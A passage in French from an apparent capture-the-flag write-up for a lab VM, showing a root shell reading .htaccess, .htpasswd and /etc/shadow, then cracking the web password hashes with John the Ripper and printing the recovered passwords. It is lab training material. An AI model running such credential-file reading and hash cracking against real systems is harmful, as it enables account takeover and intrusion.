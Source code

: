dstevens a des droits plutôt... permissifs, et on passe root très (trop !) facilement.

```console
[root@ctf4 dstevens]# cd /home/dstevens/html/restricted/
[root@ctf4 restricted]# ls -al
total 64
drwxrwsr-x  2 jdurbin users  4096 déc  1  2016 .
drwxrwsr-x 10 jdurbin users  4096 déc  1  2016 ..
-rw-rw-r--  1 jdurbin users   226 déc  1  2016 blog_instructions.txt
-rw-------  1 jdurbin users 12288 mar  9  2009 .email_instructions.txt.swp
-rw-rw-r--  1 jdurbin users   130 mar  9  2009 .htaccess
-rw-rw-r--  1 jdurbin users    88 mar  9  2009 .htpasswd
-rw-rw-r--  1 jdurbin users   210 déc  1  2016 webmail_instructions.txt
[root@ctf4 restricted]# cat .htaccess
AuthType Basic
AuthName "Restricted - authentication required"
AuthUserFile /var/www/html/restricted/.htpasswd
Require valid-user
[root@ctf4 restricted]# cat .htpasswd
ghighland:8RkVRDjjkJhq6
pmoore:xHaymgB2KxbJU
jdurbin:DPdoXSwmSWpYo
sorzek:z/a8PtVaqxwWg 
```

Le répertoire _restricted_ ne le sera plus, dès lors que John The Ripper n'aura fait qu'une bouchée de ces mots de passe.

```console
root@blinils:~# john .htpasswd --wordlist=/usr/share/dict/rockyou.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (descrypt, traditional crypt(3) [DES 128/128 AVX-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
pacman           (sorzek)
undone1          (ghighland)
Homesite         (pmoore)
```

### Attaque par dictionnaire avec John The Ripper sur le fichier /etc/shadow

Le fichier /etc/shadow est particulièrement intéressant, car
[il contient les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd), ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes.
L'outil John The Ripper est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers /etc/passwd et /etc/shadow, comme suit...

```console
[root@ctf4 ~]# cat /etc/shadow
root:$1$DSHH/MlC$DH8ClhHKeagYW4PwxICZC0:14309:0:99999:7:::
bin:*:14309:0:99999:7:::
daemon:*:14309:0:99999:7:::
adm:*:14309:0:99999:7:::
lp:*:14309:0:99999:7:::
sync:*:14309:0:99999:7:::
shutdown:*:14309:0:99999:7:::
halt:*:14309:0:99999:7:::
mail:*:14309:0:99999:7:::
news:*:14309:0:99999:7:::
uucp:*:14309:0:99999:7:::
operator:*:14309:0:99999:7:::
games:*:14309:0:99999:7:::
gopher:*:14309:0:99999:7:::
ftp:*:14309:0:99999:7:::
```